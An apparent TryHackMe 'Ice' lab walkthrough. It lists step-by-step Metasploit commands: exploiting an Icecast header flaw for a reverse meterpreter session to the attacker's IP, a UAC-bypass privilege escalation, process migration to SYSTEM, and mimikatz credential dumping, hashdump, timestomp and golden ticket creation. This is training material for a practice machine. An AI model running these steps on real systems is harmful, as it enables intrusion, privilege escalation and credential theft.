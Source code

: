 # Ice TryHackMe Walkthrough
starting with a nmap scan on the target

```
nmap -T5 -sS -A <target ip> -vv
```
Look for the answers in output
<details>
  <summary>spoiler</summary>
  <p>1. MSRDP on port 3389</p>
  <p>2. 8000 port running service Icecast</p>
  <p>3. hostname : DARK-PC </p>
</details>

[CVE-2004-156](https://www.cvedetails.com/cve/CVE-2004-1561/)\
using the hint search for the vulnerablity : CVE-2004-1561 & score of 6.4

Let's search for exploit in metasploit : start with `msfconsole`
```
search icecast
```
`use 0` or `use exploit/windows/http/icecast_header`

`set rhosts <target ip>` and `set lhost <your tun0 ip>`

*yay got the connection*

use `getuid` to find out about the user

use `sysinfo` to get system info

<details>
  <summary>spoiler</summary>
  <p>shell name : meterpreter </p>
  <p>username : Dark</p>
  <p>windows build 7601</p>
  <p>architecture x64</p>
  <p></p>
</details>

while inside meterpreter use:
```
run post/multi/recon/local_exploit_suggester
```

found many result but for this machine we need this `exploit/windows/local/bypassuac_eventvwr`\
press ctrl + z and background the session and list the sessions with (note the sesion number) `sessions`\
```
use exploit/windows/local/bypassuac_eventvwr
```
then set session with :
```
set session <Session number>
```
set lhost ip eg (10.*.*.*) :
```
set lhost <tun0 ip>
```
then run : `run`

after getting shell find out you privilges with `getprivs`

search for printer service : hint name is realted to *spool*

then migrate the process with `migrate -N <processname.exe>`

after successful migration use `getuid` and see you're now *NT AUTHORITY\SYSTEM*

load mimikatz for password dumping using command `load kiwi`

this will load mimikatz in meterpreter you can use `help` to see the usages

run : `creds_all` to get the password and note it out.

`hashdump` is used to dump all the password hashed stored in system.

`timestomp` is used to modifie timestamp or files.

`golden_ticket_create` lets us create goldent ticket

